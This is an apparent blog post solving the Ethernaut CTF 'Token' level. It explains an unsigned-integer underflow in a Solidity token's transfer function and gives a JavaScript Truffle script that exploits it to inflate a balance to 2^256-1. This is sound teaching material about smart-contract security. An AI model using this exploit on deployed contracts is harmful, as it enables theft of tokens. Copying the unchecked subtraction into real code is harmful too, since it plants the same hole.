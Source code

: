 Title: Solving Zeppelin's Ethernaut CTF - Token
Date: 2018-06-10 22:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-token
Summary: Sixth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Token, we hack a basic token contract and manage our way to earn a huge amount of ethers.

## Introduction
The [Token contract](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"} simulates a basic token built on the Ethereum blockchain. It is not a full [ERC20](https://theethereum.wiki/w/index.php/ERC20_Token_Standard), but hey, you gotta start somewhere. Our main goal is to 'steal' as many tokens as we can from the contract, so let's dive right into it.

## The Token contract
The contract is deployed with some initial supply of tokens, as you can see in its constructor. That initial supply is both set as the total supply of tokens and saved as the balance of the contract's deployer.
~~~solidity
function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
}
~~~

The function `balanceOf` lets any caller see how many token a certain address has.
~~~solidity
function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
}
~~~

Finally, the `transfer` function is where the core business logic of the contract lives, and where we're gonna aim our weapons at:
~~~solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
~~~

It basically allows any caller to 'send' (i.e. change the balances in the contract's storage) a certain amount (`_value`) of tokens from his/her address to the one passed as an argument (`_to`).

While the first line *tries* to ensure the caller has enough tokens to make the transaction, lines 2 and 3 actually implement the swap between the source and destination addresses.

Focus on line 1 for now: `require(balances[msg.sender] - _value >= 0);`.

We know that `balances[msg.sender]` and `_value` are both `uint` variables, right ? Well, then you're witnessing a real Solidity underflow, which results from unsafely extracting an `uint` from another.Let me put it straight. The difference between two `uint`, is another `uint`, meaning that the difference will always be equal or greater than zero! Thus, the condition `balances[msg.sender] - _value >= 0` will always evaluate to true.

Following that line of thought, the second line of the function is where our balance is decreased. However, we can underflow that as well!. According to the challenge text, our account starts with 20 tokens. What if we tried transferred 21 tokens ?. The resulting operation would look like:

~~~solidity
balances[msg.sender] = 20 - 21;
~~~

Since a `uint` cannot take the value -1, instead the variable underflows and the result of the operation, stored as the caller's balance, is 2^256 - 1.

Having analyzed the contract's vulnerability, include its code in `contracts/Token.sol` and deploy it to the local blockchain by including the following snippet in `migrations/2_deploy_contracts.js`.

~~~javascript
let Token = artifacts.require('./Token.sol')
const TOKEN_INITIAL_SUPPLY = 20
module.exports = deployer => {
    deployer.deploy(Token, TOKEN_INITIAL_SUPPLY)
}
~~~

Then run `truffle migrate`.

## The exploit
In this case, the vulnerability is easy to exploit. The exploit consists of just calling the `transfer` function with a value greater than 20.
~~~javascript
const TokenContract = artifacts.require('Token')
const assert = require('assert')

async function execute(callback) {

    let contract = await TokenContract.deployed()

    let balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance, 20)
    console.log(`Initial balance: ${balance}`)

    await contract.transfer(web3.eth.accounts[1], 21)

    balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance > 20, true)
    console.log(`Final balance: ${balance} tokens`)

}

module.exports = execute
~~~

That's it. After running `truffle exec exploits/token.exploit.js`, you should see that the balance of the account if far greater than 20 tokens.

You can also [find the exploit code at my Github repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/token.exploit.js). Although you might find some differences between the code in the repository and the one included in this post, the exploits work exactly the same. I made some changes to the exploit written here to make it simpler and clearer.

Thanks for reading! In the [next part](https://notonlyowner.com/solving-zeppelin-ethernaut-ctf-delegation) of these series, we will tackle the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:rel="noopener"} and study the dangers of using a low-level call such as `delegatecall` in Solidity.
